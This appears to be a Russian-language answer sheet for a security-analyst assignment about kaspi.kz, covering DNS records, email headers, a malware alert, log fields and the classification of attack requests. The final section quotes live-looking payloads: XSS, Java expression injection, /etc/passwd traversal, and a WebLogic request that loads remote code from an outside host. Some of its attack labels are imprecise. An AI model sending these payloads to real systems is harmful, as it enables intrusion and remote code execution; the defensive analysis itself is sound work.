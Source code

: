 Серғазы Мәди Дарханұлы COPYRITING  (©) 2023 

1.       Сделать описание каждой строчке результата https://2whois.ru/?t=dns&data=kaspi.kz;


Это результат DNS-запроса для домена "kaspi.kz". Каждая строка результата представляет собой отдельный тип записи, который был получен с DNS-серверов.

kaspi.kz IN A ip = 194.187.245.10 85 сек. - Это запись типа "A", которая определяет IPv4-адрес для домена "kaspi.kz". IP-адрес этого домена - 194.187.245.10, а TTL (time-to-live) для этой записи - 85 секунд.

kaspi.kz IN NS target = ns.bc.kz 179 сек. - Это запись "NS", которая определяет серверы имен для домена "kaspi.kz". Сервером имен для этой записи является "ns.bc.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN NS target = ns.kaspi.kz 179 сек. - Это еще одна запись "NS", которая указывает другой сервер имен для домена "kaspi.kz". Сервером имен для этой записи является "ns.kaspi.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN NS target = ns2.bc.kz 179 сек. - Это еще одна запись "NS", которая указывает еще один сервер имен для домена "kaspi.kz". Сервером имен для этой записи является "ns2.bc.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN NS target = ns2.kaspi.kz 179 сек. - Это еще одна запись "NS", которая указывает еще один сервер имен для домена "kaspi.kz". Сервером имен для этой записи является "ns2.kaspi.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN SOA mname = ns.bc.kz rname = telecomdev.kaspi.kz serial = 2018122633 refresh = 600 retry = 150 expire = 28800 minimum-ttl = 300 217 сек. - Это запись "SOA", которая указывает информацию о начале полномочий для домена "kaspi.kz". Эта запись определяет основной сервер имен как "ns.bc.kz", контактный адрес электронной почты как "telecomdev.kaspi.kz", и различные другие параметры, такие как серийный номер, частота обновления и время жизни.

kaspi.kz IN MX pri = 10 target = bmss-01d.kaspi.kz 300 сек. - Это запись "MX", которая определяет почтовые серверы для домена "kaspi.kz". Эта запись указывает, что приоритет равен 10, а почтовый сервер для этой записи - "bmss-01d.kaspi.kz". TTL для этой записи составляет 300 секунд.

kaspi.kz IN MX pri = 10 target = bmss-02d.kaspi.kz 300 сек. - Это еще одна запись "MX", которая указывает другой почтовый сервер для домена "kaspi.kz". Эта запись указывает, что приоритет равен 10, а почтовый сервер для этой записи - "bmss-02d.kaspi.kz". TTL для этой записи составляет 300 секунд.

`kaspi.kz IN TXT txt = google-site-verification=x-9S3SCWGLPV4449a3riJHAdsBWLD44A8YGr



2.       Разобрать Email Header (разобрать и описать только нужные значения и потом суметь объяснить их применимость);
Email  Header
Это заголовок электронной почты, в котором содержится подробная информация о том, как было передано и получено письмо. Вот краткое объяснение различных полей этого заголовка:

Получено: Это стандартный заголовок, который показывает путь, который прошло письмо от места отправления до места назначения. В данном случае он показывает, что письмо было получено на exch3.localhost (IP-адрес 10.1.1.1), затем передано на exch3.localhost (IP-адрес 10.1.1.1) и, наконец, на nodename.kaspi.kz (IP-адрес 10.1.1.2).
Received-SPF: Этот заголовок показывает результат проверки Sender Policy Framework (SPF) для письма. Он показывает, что письмо прошло проверку SPF для домена "visa.com", что означает, что IP-адрес отправляющего сервера (198.241.159.88) уполномочен отправлять электронные письма от имени этого домена.
Authentication-Results: Этот заголовок показывает результаты различных проверок подлинности, проведенных над электронной почтой. Он показывает, что письмо прошло проверки SPF и DKIM (DomainKeys Identified Mail), и что политика DMARC (Domain-based Message Authentication, Reporting, and Conformance) для домена "visa.com" установлена на "карантин", но это конкретное письмо было пропущено.
Остальные заголовки не так важны в данном конкретном случае, но, похоже, они содержат закодированный текст (возможно, сообщение или вложение) и дополнительные заголовки (IPHdr) без четкого назначения.


3.       От системы получено уведомление «JobSFMail-Date.Hash.txt» что оно значит (нужно расписать как ты понимаешь данное уведомление и к чему оно может привести);
JobSFMail

Исходя из предоставленной информации, похоже, что система обнаружила исходящие соединения с IP-адреса 10.1.22.33 на два разных IP-адреса, 34.202.85.54 и 54.164.20.117, на порты 80. Эти соединения были отмечены как вредоносные и связаны с вариантом вредоносной программы Win.Trojan.Banker. Уведомление также содержит уникальный идентификатор "JobSFMail-Date.Hash.txt", который может быть использован для отслеживания или идентификации события для дальнейшего анализа или расследования.

В целом, данное уведомление указывает на возможную компрометацию системы или сети вредоносным ПО Trojan.Banker, и могут потребоваться дальнейшие действия для расследования и снижения потенциальной угрозы. Возможно, необходимо предпринять шаги по изоляции пораженной системы, локализации инфекции и, возможно, провести криминалистический анализ для определения источника и масштабов компрометации. Кроме того, в зависимости от серьезности и характера инцидента может потребоваться оповещение других соответствующих сторон, например, сотрудников службы ИТ-безопасности или правоохранительных органов.

4.           На сайте https://regex101.com/ разобрать «Пример логов 1.txt» и дать описание полезным по вашему мнению полям (Имя пользователя, IP адреса и порты источника и назначения, какое событие, статусы и т.д.);

#1 NGINX:
Полезные поля:

IP-адрес источника: 10.1.2.3
IP-адрес назначения: 109.166.59.44
Временная метка: [17/Nov/2019:03:17:59 +0600]
Метод запроса: GET
Запрашиваемый URL: /shop-ext/suggestions/?i=productDetails&m=true&t=IP&pi=14701657&u=3729495
Код состояния HTTP: 200
Referrer: https://kaspi.kz/shop/p/gerbor-vusher-reg1w2d2s-13-9-l-p-nimfea-al-ba-belyi-gljanets-14701657/?c=551010000
Пользовательский агент: Mozilla/5.0 (Linux; Android 9; Redmi Note 7 Build/PKQ1.180904.001; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/78.0.3904.96 Mobile Safari/537.36
Время отклика: 0.009
Время отклика бэкенда: 0.008
IP-адрес и порт назначения: 10.2.3.4:9001
#2 Почтовый журнал:
Полезные поля:

Временная метка: Dec 04 12:22:00
Источник журнала: Mail_Logs
Тип события: Информация
SMTP ICID: 11444342
Интерфейс: MAIL
IP-адрес источника: 172.1.2.3
IP-адрес назначения: 62.141.46.147
Хост обратного DNS: s2.kipersam.art
Проверено: да
#3 Прокси-сервер:
Полезные поля:

Заголовок Syslog: <30>Dec 4 12:21:59 mwg-prx1 mwg:
Тип события: LEEF:1.0
PRXName: Веб-шлюз
Версия: 7.8.2.11.0
DevTime: 1575440519000
IP-адрес источника: 10.7.8.9
Имя пользователя: petrov_123
Пользовательский агент: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36
Код состояния HTTP: 200
IP-адрес назначения: 149.154.167.99
Категории URL: Мгновенные сообщения
URL: https://venus.web.telegram.org/apiw1
#3 ASA:
Полезные поля:

Заголовок Syslog: <166>Dec 04 2019 12:21:59 ASA1234 :
Причина отказа: Отказ TCP (нет соединения)
IP-адрес источника: 90.143.47.21
Порт источника: 42968
IP-адрес назначения: 194.187.247.147
Порт назначения: 443
Флаги: ACK
Интерфейс: внешний
#4 Журнал почты:
Полезные поля:

Временная метка: Dec 04 12:22:00
Источник журнала: Mail_Logs
Тип события: Информация
ICID: 11444342
Принять/отклонить: ПРИНЯТЬ СПИСОК ПОДОЗРЕВАЕМЫХ SG / ОТКЛОНИТЬ ЧЕРНЫЙ СПИСОК SG
SBRS: sbrs[-3.0:-1.0] / sbrs[-10.0:-3.0]
Оценка SBRS: -1.6 / -5.5
Страна: Mongolia

Этот журнал содержит информацию о событии FILE_MALWARE_EVENT, которое было записано устройством с DeviceType=Estreamer и DeviceAddress=10.10.10.1 в CurrentTime=1575440517963. Журнал включает следующие поля:

timestamp: дата и время, когда произошло событие (04 Dec 2019 12:21:55)
fileEventData.sourceAddress: IP-адрес источника (172.2.3.4)
fileEventData.sourcePort: порт источника (46037)
fileEventData.destinationAddress: IP-адрес назначения (172.2.3.5)
fileEventData.destinationPort: порт назначения (30)
fileEventData.protocol: используемый протокол (6)
fileEventData.fileName: имя файла, вызвавшего событие (online_126657052_3.pdf)
fileEventData.disposition: назначение события (2)
fileEventData.speroDisposition: расположение события в Spero (4)
fileEventData.fileStorageStatus: статус файла в хранилище (2)
fileEventData.fileAnalysisStatus: статус анализа файла (2)
fileEventData.localMalwareAnalysisStatus: статус анализа локального вредоносного ПО (5)
fileEventData.threatScore: оценка угрозы события (0)
fileEventData.action: действие, предпринятое в ответ на событие (3)
fileEventData.clientAppId: идентификатор клиентского приложения (2634)
fileEventData.application.serviceId: идентификатор используемой службы приложения (836)
fileEventData.application.serviceName: имя используемой службы приложения (SMTP)
fileEventData.user.userId: идентификатор пользователя, вызвавшего событие (9999997)
fileEventData.user.userName: имя пользователя, вызвавшего событие (аутентификация не требуется).
Полезные поля в этом журнале, вероятно, будут включать IP-адреса и порты источника и назначения, а также имя файла, расположение и действие, предпринятое в ответ на событие. Другие поля, такие как статус анализа файла и оценка угрозы, также могут быть полезны в определенных контекстах.



5.           В файле «Пример запросов.txt» отделить легитимные запросы от запросов, очевидно содержащих попытки эксплуатации известных уязвимостей. Написать IP адреса атакующих, какого класса уязвимости они пытались использовать.
Пример запросов

85.117.101.213 GET https://data.kaspi.lab/market/api/v2/orders
payload = %3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E
potential_attack = XSS(Reflected)

81.91.187.59 POST https://new.kaspi.lab/bottles/dashboards/
payload = actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D
pottential_attack = SSTI via uploaded shell

Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36 %3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E kaspi.lab                 pottential_attack = XSS(Reflected)


2023-02-15T08:32:00	dev.kaspi.lab 443 78.109.191.117 10.2.50.21	80	POST /page/api/login/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+12;+SM-A315F+Build/SP1A.210812.016;+wv)	view%3D..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd	kaspi.lab
pottential_attack = LFI

2023-02-15T08:32:00	forum.kaspi.lab 443	79.133.190.153 10.2.1.12	80	POST	/bottles/dashboardapi2/api/v1/Dashboard/getSampleRequest	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(iPhone;+CPU+iPhone+OS+13,4+like+Mac+OS+X)+AppleWebKit/605.1.15+(KHTML,+like+Gecko)+Mobile/15E148	_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29	kaspi.lab
pottential_attack = Reverse Shell (Reverse TCP, connect-back)

